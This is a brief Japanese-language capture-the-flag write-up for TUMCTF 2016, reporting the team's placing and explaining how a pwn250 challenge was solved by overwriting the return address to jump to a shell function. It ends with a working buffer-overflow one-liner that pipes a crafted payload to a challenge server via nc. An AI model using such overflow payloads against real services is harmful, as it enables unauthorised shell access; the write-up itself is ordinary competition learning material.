```yaml
---
layout: post
title: TUMCTF 2016 writeup
---
```


WackMCで参加しました. 299ptsで, 86/434位でした.


少ししか参加出来ていなくて, 結局pwn250と2点問題*Nしか解けなかった.

2点問題は, ロゴが与えられてこれは何. みたいな感じで答える.(50問あるのでしんどくて投げた)

pwn250は適当にやってたらRIPが取れて, system('/bin/sh');みたいな関数がある事が分かるのでそこに飛ばした.



あと, h4ckitも参加してたけどページが重かったし, 色々とハァ〜という感じだったので

期間が1週間くらいあったが800ptsくらい取って終った.

h4ckitはwriteupなし！ｗ

pwn250

```
0x400e9a <Admin::shell()>:	0xe5894855
```

```bash
(python -c 'print "AAAA\ntodo: ldap and kerberos support\0" + "A" * 40 + "\x9a\x0e\x40\0\0\0\0\0" + "\n"'; cat) |  nc 104.198.76.97 9001
```
